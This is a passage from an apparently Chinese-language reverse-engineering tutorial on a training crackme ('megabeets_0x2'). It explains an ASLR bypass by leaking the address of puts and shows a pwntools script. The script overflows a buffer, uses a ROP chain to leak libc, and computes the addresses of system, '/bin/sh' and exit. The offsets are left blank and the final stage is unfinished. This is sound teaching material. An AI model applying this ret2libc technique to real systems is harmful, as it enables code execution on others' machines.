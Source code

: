 我执行了脚本三次，`puts`的地址每次都会变得不一样。因此我们不能提前预测它的地址。现在我们需要找到`puts`在*libc*中的偏移，然后计算出*libc*的基址。在我们找到基址后，我们可以用偏移计算出`system`、`exit`以及字符串`/bin/sh`的地址。

现在我们的脚本应该是这样：

```python
from pwn import *

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

# Offsets
offset_puts =
offset_system =
offset_str_bin_sh =
offset_exit =

# context.log_level = "debug"

def main():

    # open process
    p = process("./megabeets_0x2")

    # Stage 1

    # Initial payload
    payload  =  "A"*140
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)

    p.clean()

    # Calculate libc base

    libc_base = leak - offset_puts
    log.info("libc base: 0x%x" % libc_base)

    # Stage 2

    # Calculate offsets
    system_addr = libc_base + offset_system
    binsh_addr = libc_base + offset_str_bin_sh
    exit_addr = libc_base  + offset_exit

    log.info("system: 0x%x" % system_addr)
    log.info("binsh: 0x%x" % binsh_addr)
    log.info("exit: 0x%x" % exit_addr)

if __name__ == "__main__":
    main()
```